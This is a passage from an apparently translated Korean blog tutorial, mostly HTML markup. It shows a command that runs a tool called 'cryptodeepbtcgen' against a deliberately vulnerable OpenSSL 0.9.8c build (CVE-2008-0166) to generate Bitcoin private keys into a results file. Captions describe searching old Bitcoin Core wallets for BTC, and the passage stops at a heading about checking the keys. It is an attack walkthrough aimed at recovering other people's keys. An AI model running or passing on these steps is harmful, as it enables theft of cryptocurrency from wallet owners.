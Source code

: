 #26  - unknownC1
#27  - unknownC2
#28  - unknownD0
#29  - unknownD1
#30  - unknownD2
#31  - unknownD3
#32  - unknownD4
#33  - unknownD5
#34  - unknownE0
#35  - unknownA0x
#36  - unknownA1x
#37  - unknownA2x
#38  - unknownA3x
#39  - unknownA4x
#40  - unknownB0x
#41  - unknownB1x
#42  - unknownB2x
#43  - unknownB3x
#44  - unknownC0x
#45  - unknownC1x
#46  - unknownC2x
#47  - unknownD0x
#48  - unknownD1x
#49  - unknownD2x
#50  - unknownD3x
#51  - unknownD4x
#52  - unknownD5x
#53  - unknownE0x
crypto &gt;
</code></pre>



<h2>cryptodeepbtcgen -n 32 -v 0 실행:</h2>



<pre class="wp-block-code"><code>LD_LIBRARY_PATH=./openssl-0.9.8c-vuln/ ./cryptodeepbtcgen -n 32 -v 0 &gt;&gt; result.txt
</code></pre>



<figure class="wp-block-image"><img src="https://habrastorage.org/r/w1560/getpro/habr/upload_files/f0b/894/bd8/f0b894bd8b5866ffcbb33be8842347f2.png" alt="cryptodeepbtcgen 실행" title="cryptodeepbtcgen 실행"/><figcaption class="wp-element-caption">cryptodeepbtcgen 실행</figcaption></figure>



<p><code>Google Drive</code>&nbsp;모든 것은 파일 저장소에 텍스트 파일로&nbsp;&nbsp;저장됩니다.&nbsp;<code>result.txt</code></p>



<figure class="wp-block-image"><img src="https://habrastorage.org/r/w1560/getpro/habr/upload_files/abb/8f1/8ea/abb8f18ea7575d6b967bbe083d984943.png" alt="심각한 취약점 OpenSSL 0.9.8 CVE-2008-0166이 있는 Bitcoin Core의 이전 버전에서 BTC 코인 검색"/></figure>



<h2>개인 키 확인 중!</h2>
